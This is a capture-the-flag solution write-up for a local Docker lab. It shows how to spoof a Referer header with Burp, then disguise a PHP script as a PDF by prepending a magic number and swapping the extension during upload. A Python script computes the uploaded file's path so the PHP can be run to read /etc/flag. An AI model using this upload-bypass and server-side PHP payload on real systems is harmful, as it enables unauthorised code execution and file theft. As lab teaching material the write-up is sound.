 # Solution

Github Repository: https://github.com/ygbull/ctf

## Setup

Go to the root directory of the CTF project and run

```bash
docker build -t ctf .
docker run -d -p 80:80 ctf
```

The apache server should be up on the [http://localhost:80](http://localhost:80).

Change the 80 to any other port if needed.

## Solution

### Step 1

Use the browser to visit the [http://localhost](http://localhost), we will get the message of **Access Denied**. That’s
because to visit the index page, the server require user to have the ***Referer***
from [**umass.edu](http://umass.edu).**

![Untitled](img/img1.png)

       Therefore, you need to intercept the request using ***[Burp](https://portswigger.net/burp/communitydownload)*** and add: 

```html
Referer: [http://umass.edu](http://umass.edu/)
```

![Untitled](img/img2.png)

![Untitled](img/img3.png)

Click `Forward` button on the top left and you will get into the index page like following:

![Untitled](img/img4.png)

### Step 2

In the index page, we can see that there are two major component. First is upload a pdf file and the other is check if
the flag we found is correct.

First thing we need to try is inject a file into the system so that we can maybe run command with it.

Think about it, if we want to run command in a web server, we are most likely to need a php file. Thus, let’s try to
upload a php file based on the index page hint as following:

```php
<?php
echo file_get_contents('/etc/flag');
```

![Untitled](img/img5.png)

Then we try to upload, but failed. Because the php file will check the magic number of the file.

![Untitled](img/img6.png)

In order to bypass the restriction on which kind of file we can upload to the web server, we can change the magic number
of the php file to `pdf`  so that the web server will think we upload a `pdf` file but in reality, we inject a `php`
script into the system.

To achieve that, you can run command as following:

```bash
{ echo "%PDF-"; cat getFlag.php; } > getFlag.pdf
```

And then try to upload `getFlag.pdf` file int the system:

![Untitled](img/img7.png)

we hijack the request and change the file extension `pdf` into `php`, and then click forward:

![Untitled](img/img8.png)

And we succeed:

![Untitled](img/img9.png)

## Step3

Now we already have the php file injected into the system, we need to find where it stored

The following script reversely calculate the file name of the upload file based on what user upload:

```python
import base64

def encode_filename(filename):
    # Encode the filename to bytes, then to Base64
    filename_bytes = filename.encode('utf-8')
    base64_bytes = base64.b64encode(filename_bytes)
    base64_string = base64_bytes.decode('utf-8')

    url_safe_base64_string = base64_string.replace('+', '-').replace('/', '_').rstrip('=')

    return url_safe_base64_string

original_filename = "getFlag.php"
encoded_filename = encode_filename(original_filename)
print(encoded_filename + ".php")
```

Then we replace the `original_filename` with the file name you use for the upload file and run the python script

```nasm
python getFileName.py
```

The printed file name is what you need to get the flag

![Untitled](img/img10.png)

Use the file name found (`Z2V0RmxhZy5waHA.php` in this case) and add after the `uploads/`

Thus, the URL for the php script we injected earlier is: `localhost/uploads/Z2V0RmxhZy5waHA.php`

Now we can try this URL in the browser and we will get the correct flag.

![Untitled](img/img11.png)

The highlighted part is supposed to be the flag. Copy that and we go back to the main page, and then check if the flag
is correct:

![Untitled](img/img12.png)

We put the flag we found in the injected php file and click `Verify Flag` . Seems like we got the flag:

![Untitled](img/img13.png)